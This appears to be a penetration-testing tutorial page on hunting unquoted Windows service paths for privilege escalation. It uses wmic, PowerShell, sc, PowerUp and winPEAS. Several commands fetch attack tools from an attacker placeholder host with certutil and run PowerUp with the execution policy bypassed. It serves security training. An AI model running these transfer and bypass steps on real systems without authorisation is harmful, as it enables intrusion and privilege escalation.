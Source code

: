 ```yaml
---
legal-banner: true
---
```


### **HUNTING FOR UNQUOTED SERVICES MANUALLY**

1.  The first thing we should check when we get a foothold is what privileges our current user has using   
    `whoami /priv`

    ![](../../../../img/Windows-Environment/67.png)

    **NOTE:** The SeShutdown privilege allows restarting a machine, Typically, you might lack permissions to directly stop/start a service. However, with SeShutdown, you can restart the machine, indirectly restarting the service and facilitating exploitation,The SeShutdown privilege, even if marked "Disabled," can still be used because it's only disabled for the current session.
    
2.  We can manually hunt for any unquoted service paths on the system using cmd.  
    `wmic service get name,displayname,startmode,pathname | findstr /i /v "C:\Windows\\" |findstr /i /v """`  
    
    !![](../../../../img/Windows-Environment/68.png)
    
3.  We can manually hunt for any unquoted service paths on the system using Powershell.  
    `Get-WmiObject -class Win32_Service -Property Name, DisplayName, PathName, StartMode | Where {$_.PathName -notlike "C:\Windows*" -and $_.PathName -notlike '"*'} | select Name,DisplayName,StartMode,PathName`

    ![](../../../../img/Windows-Environment/69.png)

    **NOTE:** Both commands have found that the unquotedsvc service has an unquoted service path and that the Start-mode is an Manual service.
    
4.  To Check Service Path Configuration and if we have permissions to start service:  
    `sc sdshow unquotedsvc`

    ![](../../../../img/Windows-Environment/70.png)
    

### **HUNTING FOR UNQUOTED SERVICES WITH POWERUP**

1.  If you don’t already PowerUp, you can get PowerUp.ps1 using the following command:  
    `wget https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Privesc/PowerUp.ps1`

    ![](../../../../img/Windows-Environment/71.png)
    
2.  Host the Powershell Script Using Python:  
    `python3 -m http.server 8000`

    ![](../../../../img/Windows-Environment/72.png)
    
3.  Transfer the script to the target machine using certutil:  
    `certutil -urlcache -f http://[IP-ADRESS]:8000/PowerUp.ps1 PowerUp.ps1`

    ![](../../../../img/Windows-Environment/73.png)
    
4.  To bypass the PowerShell execution policy and execute the PowerUp.ps1 in a single line:  
    `powershell -ep bypass -c "& {.\PowerUp.ps1}"`

    ![](../../../../img/Windows-Environment/74.png)

    **NOTE:** PowerUp.ps1 can enumerate misconfigurations and has built-in functions to exploit many of them. However, finding an unquoted service path doesn't always mean it's vulnerable. PowerUp recognizes the misconfiguration and suggests an AbuseFunction, assuming it is exploitable.
    

### **HUNTING FOR UNQUOTED SERVICES WITH WINPEAS**

1.  Since the target runs a 64-bit OS, we can send 64-bit winPEAS via a Python HTTP server..  
    `python3 -m http.server 8000`

    ![](../../../../img/Windows-Environment/75.png)
    
2.  Transfer winPEAS to target machine Using certutil  
    `certutil -urlcache -f http://[IP-ADRESS]:8000/winPEASx64.exe winPEASx64.exe`

    ![](../../../../img/Windows-Environment/76.png)
    
3.  winPEAS has filters for the Services Information category to find unquoted service paths using:  
    `.\winPEASx64.exe quiet servicesinfo`

    ![](../../../../img/Windows-Environment/77.png)

    **NOTE:** Sharpen your eagle eye to quickly find important data in the winPEAS output by paying attention to the red and yellow highlighted sections.